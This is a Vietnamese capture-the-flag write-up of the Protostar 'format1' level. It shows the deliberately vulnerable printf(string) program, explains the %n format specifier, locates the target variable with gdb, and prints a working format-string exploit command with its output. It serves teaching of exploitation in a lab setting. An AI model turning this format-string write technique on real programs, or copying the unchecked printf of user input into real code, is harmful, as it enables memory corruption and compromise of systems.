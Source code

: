 # FORMAT ONE

## About

This level shows how format strings can be used to modify arbitrary memory locations.

Hints

  * objdump -t is your friend, and your input string lies far up the stack :)

This level is at /opt/protostar/bin/format1

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

## Solutions

`FORMAT ONE` cho chúng ta thấy cách mà chúng ta có thể sử dụng chuỗi định dạng để thay đổi giá trị tại vị trí tùy ý trên bộ nhớ. Thử thách sẽ hoàn thành khi ta thay đổi được giá trị của biến toàn cục `target` != 0 vaf in ra `"you have modified the target :)"`.

Đầu tiên ta đi tìm input của chúng ta được định dạng ở parameter thứ mấy bằng cách quét stack.

```
root@protostar:/opt/protostar/bin# ./format1 $(python -c 'print "ABCDEFGH" + ".%x" * 135')
ABCDEFGH.804960c.bffffb38.8048469.b7fd8304.b7fd7ff4.bffffb38.8048435.bffffd08.b7ff1040.804845b.b7fd7ff4.8048450.0.bffffbb8.b7eadc76.2.bffffbe4.bffffbf0.b7fe1848.bffffba0.ffffffff.b7ffeff4.804824d.1.bffffba0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffffbb8.6df3930f.47bd651f.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffffbe4.8048450.8048440.b7ff1040.bffffbdc.b7fff8f8.2.bffffcfe.bffffd08.0.bffffea6.bffffeba.bffffeca.bffffeec.bffffeff.bfffff09.bfffff1d.bfffff5f.bfffff76.bfffff87.bfffff8f.bfffff9a.bfffffa7.bfffffdd.bfffffe6.0.20.b7fe2414.21.b7fe2000.10.f8bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.0.c.0.d.0.e.0.17.0.19.bffffcdb.1f.bffffff2.f.bffffceb.0.0.0.0.f000000.897af4f1.9384902.1e7fa30d.6995b4d0.363836.0.0.0.2f2e0000.6d726f66.317461.44434241.48474645.2e78252e.252e7825.78252e78.2e78252e
```

"ABCD" được định dạng ở parameter thứ 130, ta sẽ căn chỉnh lại payload quét stack để dễ sửa đổi thành payload khai thác của chúng ta.

```
root@protostar:/opt/protostar/bin# ./format1 $(python -c 'print "ABCDEFGH" + ".%x" * 129 + ".%x" + ".%x" * 5')
```

Bây giờ chúng ta sẽ tìm hiểu về một `type` định dạng chuỗi là `%n`. Định dạng chuỗi `%n` cho phép người sử dụng ghi vào địa chỉ là giá trị hiện tại của đối số số lượng ký tự được in ra màn hình.

VD: ta có code C `fmt_n.c` sau.

```
#include<stdio.h>

int main(){
	int val;
	val = 1;
	printf("val = %d\n", val);
	printf("blah %n blah\n", &val);		// "blah " have five character
	printf("val = %d\n", val);
	return 0;
}
```
Run code

```
$ ./fmt_n
val = 1
blah  blah
val = 5
```

Biến val đã bị thay đổi thành giá trị = 5.

Kết thúc vd tôi nghĩ đến đây bạn đã có thể hiểu được `%n` thực sự làm gì với biến hoặc một địa chỉ bất kỳ trong bộ nhớ khi nó được nhận làm đối số.

Vậy nên bây giờ việc chúng ta cần làm để vượt qua `FORMAT ONE` là tìm được địa chỉ của biến toàn cục `target` và thay `"ABCD"` bằng địa chỉ đó để chuỗi định dạng thứ 130 nhận nó làm đối số rồi viết vào đó giá trị khác 0 khi `%x` được thay `%n`.

Tìm địa chỉ của `target` = `gdb`:

```
root@protostar:/opt/protostar/bin# gdb -q ./format1
Reading symbols from /opt/protostar/bin/format1...done.
(gdb) p target
$1 = 0
(gdb) p &target
$2 = (int *) 0x8049638
(gdb)
```

Tiến hành khai thác:

```
root@protostar:/opt/protostar/bin# ./format1 $(python -c 'print "\x38\x96\x04\x08EFGH" + ".%x" * 129 + ".%n" + ".%x" * 5')
8EFGH.804960c.bffffb38.8048469.b7fd8304.b7fd7ff4.bffffb38.8048435.bffffd08.b7ff1040.804845b.b7fd7ff4.8048450.0.bffffbb8.b7eadc76.2.bffffbe4.bffffbf0.b7fe1848.bffffba0.ffffffff.b7ffeff4.804824d.1.bffffba0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffffbb8.f1fa7928.dbb48f38.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffffbe4.8048450.8048440.b7ff1040.bffffbdc.b7fff8f8.2.bffffcfe.bffffd08.0.bffffea6.bffffeba.bffffeca.bffffeec.bffffeff.bfffff09.bfffff1d.bfffff5f.bfffff76.bfffff87.bfffff8f.bfffff9a.bfffffa7.bfffffdd.bfffffe6.0.20.b7fe2414.21.b7fe2000.10.f8bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.0.c.0.d.0.e.0.17.0.19.bffffcdb.1f.bffffff2.f.bffffceb.0.0.0.0.2e000000.7ccf99f4.572b8706.8ec651d0.6958b2da.363836.0.0.0.2f2e0000.6d726f66.317461..48474645.2e78252e.252e7825.78252e78.2e78252eyou have modified the target :)
root@protostar:/opt/protostar/bin#
```


## Documents

<https://en.wikipedia.org/wiki/Printf_format_string>

<https://stackoverflow.com/questions/3401156/what-is-the-use-of-the-n-format-specifier-in-c>




